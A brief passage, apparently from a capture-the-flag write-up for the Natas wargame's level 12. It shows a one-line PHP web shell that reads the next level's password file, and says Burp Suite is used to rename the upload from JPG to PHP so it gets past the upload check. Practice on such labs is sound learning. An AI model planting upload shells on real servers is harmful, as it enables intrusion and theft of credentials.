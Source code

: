 The content in `level12.php` is shown below.

```php
<?php

echo exec("cat /etc/natas_webpass/natas13");
```

Maybe I need Burp Suite to change JPG to PHP.

![burpsuite](./pictures/level12/burpsuite.png)

After forwarding, I successfully uploaded the PHP file.

![upload success](./pictures/level12/upload_success.png)
